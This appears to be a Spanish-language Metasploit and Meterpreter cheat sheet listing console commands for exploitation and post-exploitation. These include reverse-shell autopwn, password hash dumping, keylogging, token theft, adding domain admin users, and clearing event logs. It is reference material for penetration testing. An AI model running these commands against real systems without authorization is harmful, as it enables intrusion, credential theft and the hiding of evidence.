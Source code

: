 Metasploit Cheat sheet


| Comandos de la consola de metasploit  |  Descripción |
| ------------ | ------------ |
|  show exploits |  Mostrar todos los exploits del Framework. |
| show payloads | Mostrar todos los payloads del Framework. |
| show auxiliary | Mostrar todos los módulos auxiliares del Framework. |
| search [cadena] | Búsqueda por cadena |
| search type:[exploit, payload, auxiliary, encoder, post] [cadena]| Búsqueda por tipo y cadena |
| info |	Muestra información acerca de un exploit cargado. |
| use [cadena] | Carga el exploit indicado. |
| LHOST​	|​Variable local host |
| RHOST​	|​Variable host remoto |
| set [parámetro] [valor] |​Graba en el parámetro el valor indicado.|
| setg[parámetro] [valor] |​Graba en valor para el parámetro indicado de forma global.|
| show options |​Muestra las opciones de un exploit.|
| show targets |​Muestra las plataformas objetivo del exploit.|
| set target [número] ​|Especifica un objetivo concreto de los posibles.|
| set payload [payload] ​|Especifica un payload a usar.|
| show advanced ​|Muestra las opciones avanzadas.|
| set autorunscript migrate -f ​|Migra el proceso a un hilo independiente de forma automática.|
| check​|	​Comprueba si un objetivo es vulnerable a un exploit.|
| exploit​	|​Ejecuta un exploit|
| exploit -j |​Ejecuta un exploit en background.|
| exploit -z |​No interactúa con la sesión después de acceder con éxito|
| exploit -e encoder |​Especifica el encoder a usar con el payload|
| exploit -h |​Muestra la ayuda para el exploit especificado|
| sessions -l ​|Muestra la lista de sesiones disponibles|
| sessions -l -v |​Muestra la lista de sesiones disponibles en modo verbose|
| sessions -s [script] |​Ejecuta un script específico en todas las sesiones de meterpreter activas.|
| sessions -K ​|Mata todas las sesiones activas|
| sessions -c cmd ​|Ejecuta un comando en todas las sesiones activas|
| sessions -u sessionID ​|Actualiza una shell de Win32 a una consola de meterpreter|
| db_create [nombre] ​|Crea una base de datos|
| db_connect [nombre] ​|Crea y se conecta a una base de datos|
| db_nmap ​|Usa y carga los resultados de Nmap en una base de datos|
| db_autopwn -h ​|Muestra la ayuda para usar db_autopwn.|
| db_autopwn -p -r -e |​Ejecuta db_autopwn contra todos los puertos encontrados, usa una shell reversa y los explota.|
| db_destroy ​|Elimina la actual base de datos|
| db_destroy [usuario]:[contraseña]@[host]:[puerto]/[base_de_datos] ​|Borra una base de datos concreta|

| Comandos de Meterpreter | Descripción |
| ------ | ------ |
| help​	​|Muestra la ayuda.|
| run [script] ​|Ejecuta un script de meterpreter|
| sysinfo​	​|Muestra la información del sistema comprometido|
| ls​	​|Muestra los ficheros y directorios del sistema comprometido|
| use priv ​|Carga librerías para elevar privilegios|
| ps​	|​Muestra los procesos en ejecución|
| migrate PID |​Migra un proceso específico.|
| use incognito ​|Carga las librerías de incógnito.|
| list_tokens -u ​|Muestra los tokens disponibles por usuario|
| list_tokens -g |​Muestra los tokens disponibles por grupo|
| impersonate_token [dominio]\\[usuario] |​Apropiación de un token disponible del objetivo.|
| steal_token PID ​|Apropiación de un token disponible de un proceso dado|
| drop_token ​|Deja de usar el token actual|
| getsystem​	​|Intenta elevar los privilegios del usuario de acceso.|
| shell​	|​Ejecuta una Shell interactiva|
| execute -f cmd.exe -i ​|Ejecuta cmd.exe e interactúa con él|
| execute -f cmd.exe -i -t ​|Ejecuta cmd.exe con todos los tokens disponibles|
| execute -f cmd.exe -i -H -t ​|Ejecuta cmd.exe con todos los tokens disponibles y lo convierte en un proceso oculto.|
| rev2self ​|Retorna al usuario original que comprometió el sistema|
| reg [comando] ​|Ejecuta comandos en el registro del sistema comprometido|
| setdesktop [número] ​|Cambia de pantalla|
| screenshot​	|​Toma una captura de pantalla del objetivo|
| upload file ​|Carga un fichero en el objetivo|
| download file ​|Descarga un fichero del objetivo|
| keyscan_start ​|Comienza el sniffing del teclado.|
| keyscan_dump ​|Vuelca las teclas pulsadas del sistema objetivo.|
| keyscan_stop ​|Para el sniffing del teclado.|
| getprivs |Intenta elevar privilegios.|
| uictl enable keyboard/mouse | Toma el control del teclado o ratón.|
| background |Sale de meterpreter sin cerrar la sesión.|
| hashdump	| Obtiene todos los hashes del objetivo.|
| use sniffer |Carga las librerías para esnifar.|
| sniffer_interfaces | Lista los interfaces disponibles.|
| sniffer_dump [interfaceID] pcapname |Comienza a esnifar un interfaz.|
| sniffer_start [interfaceID] packet-buffer | Comienza a esnifar un rango específico.|
| sniffer_stats [interfaceID] | Para obtener estadísticas de la interfaz.|
| sniffer_stop interfaceID |Detiene el sniffer.|
| add_user [usuario] [contraseña] -h [ip] |Añade un usuario en el sistema objetivo.|
| add_group_user "Domain Admins" [usuario] -h [ip] |Añade un usuario al grupo de administradores en el sistema objetivo.|
| clearev	|Vacía el log de eventos del sistema comprometido|
| timestomp |Cambia los atributos de un fichero.|
| reboot | Reinicia el sistema|
